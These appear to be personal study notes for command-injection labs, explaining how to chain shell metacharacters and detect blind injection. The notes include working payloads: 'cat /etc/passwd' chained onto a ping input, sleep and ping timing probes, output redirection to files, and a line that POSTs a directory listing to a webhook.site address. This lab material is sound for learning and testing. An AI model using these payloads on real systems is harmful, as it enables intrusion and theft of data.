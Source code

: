<h1>What is it</h1>

Injecting system commands into input in ways not allowed to like bypassing blacklists or chaining commands.
In Command Injection, the attacker extends the default functionality of the application, which execute system commands, without the necessity of injecting code.
Eg: If there is an input for ping tester with input box try doing ```IP && cat /etc/passwd``` if already identified that underlying is Linux.

![Ex_ping](ping.png)

Now this can show output or not. Depending on that have to try differen payloads to see if it is executing but just not showing output.

<h1>Baby steps</h1>

Identify user controlled input fields and try to get a mental map of how the application functions. 

If output displayed:
Try chaining commmands using shell meta characters.

if going in blind methods you can look into are:
Using ``` <safe_input> && sleep 10 & ``` (Only for linux) command or ```<safe_input> && ping -c 10 127.0.0.1 & ```(Inter OS) and see if output adheres to the time delay.
If it does you can then try to use other methods to exfiltrate more data like try to run `whoami`(not preffered way as chaining difficult) or $(whoami) and rediect the output.
Placing the additional command separator & after the injected command is useful because it separates the injected command from whatever follows the injection point. 
This reduces the chance that what follows will prevent the injected command from executing. 

![redirection](redirection.png)

https://www.makeuseof.com/what-are-linux-metacharacters/
https://www.bogotobogo.com/Linux/linux_shell_programming_tutorial7_metacharacters_quotes.php
https://github.com/payloadbox/command-injection-payload-list


<h1>Lab1 Simple Case</h1>
Directly executed using eval and the entire raw output is displayed back.
Can just chain commmand we want to run using shell meta characters and end with '#'(for BASH) to prevent 
interference with remaining part of the script running the commands. With this we can run anything as we can get path names,file names anything as output displayed.

Script Note:
Try to output useful error messages if script fails for some reason.

<h1>Lab2 Simple Blind</h1>
Just used sleep on different parameters you control to check which one delays response and that is then confirmed to be vulnerable.

Script Note:
Check for auth tokens and get them before sending actual request.
Can set proxy to BURP interceptor ~~so that can record the responses and know if it worked or not~~ or just print the response text in the script.


<h1>Lab3&4&5 Blind Redirection</h1>
If need output of a command and its blind injection:
1. Find vulnerable parameter
2. a) Try to find a writeable place where you can create a file and can also access that file using some other request.
2. b) Perform the injection and redirect output using '>'(Will create file or overwrite if already exists) or '>>'(Will create file or append to if already exists). 
3. If cannot write use webhook.site . Ways to do : https://medium.com/@excybex/this-blog-explores-the-potential-misuse-of-webhook-site-89baecd7704b.
Eg: ```dir=$(ls); curl -s -X POST https://webhook.site/f3082654-6152-471b-b960-48dfd6fce02f --data-raw $dir```

![Webhook example](webhook.png)